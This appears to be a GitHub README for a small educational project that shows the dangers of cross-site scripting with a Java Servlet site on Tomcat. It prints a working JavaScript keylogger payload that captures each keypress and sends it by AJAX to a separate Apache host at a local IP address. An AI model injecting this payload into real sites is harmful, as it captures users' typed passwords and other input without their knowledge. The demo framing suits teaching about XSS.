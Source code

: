 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

I hosted the website on my **Tomcat** Server and used **Apache** for **Keylogging**.

![XSS](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

The payload for keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key);
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', #apache
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```
